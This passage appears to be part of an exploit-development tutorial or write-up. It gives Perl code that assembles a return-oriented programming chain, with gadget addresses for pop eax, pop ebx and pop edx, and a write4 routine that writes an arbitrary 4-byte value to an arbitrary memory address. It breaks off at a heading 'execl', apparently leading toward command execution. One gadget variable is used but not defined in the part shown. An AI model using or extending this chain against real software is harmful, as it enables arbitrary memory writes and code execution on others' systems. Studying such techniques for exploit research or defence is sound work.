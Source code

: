 ```
```


Prepare the write4 function:
```
$pop_eax = 0x08060f10; # 0x08060f10: pop eax; pop ebx; pop ebp; ret;
$pop_ebx = 0x0813c85c; # 0x0813c85c: pop ebx; ret;
$pop_edx = 0x0808db7e; # 0x0808db7e: pop edx; ret;


# load immediate eax with value
sub load_eax {
	my ($eax) = @_;
	my $gadget = "";

	$gadget .= pack("V", $pop_eax);   # pop eax; ret
	$gadget .= pack("V", $eax);       # --> EAX
	$gadget .= pack("V", 0x44444444); # fake EBX
	$gadget .= pack("V", 0x44444444); # fake EBP
	return($gadget);
}


# writes value of eax to a specific memory address
sub write_mem_eax {
	my ($addr) = @_;
	my $gadget .= "";

	$gadget .= pack("V", $pop_edx);      # pop R1; ret
	$gadget .= pack("V", $addr);         # R1 = address
	$gadget .= pack("V", $mov_dedx_eax); # mov dword ptr [R1], eax; ret
	$gadget .= pack("V", 0x45454545);
	$gadget .= pack("V", 0x45454545);
	return($gadget);
}


# write4 - write any 4-byte value to any memory address
sub write4 {
	my ($addr, $data) = @_;
	my $gadget .= "";

	$gadget .= load_eax($data);
	$gadget .= write_mem_eax($addr);

	return($gadget);
}
```



## execl
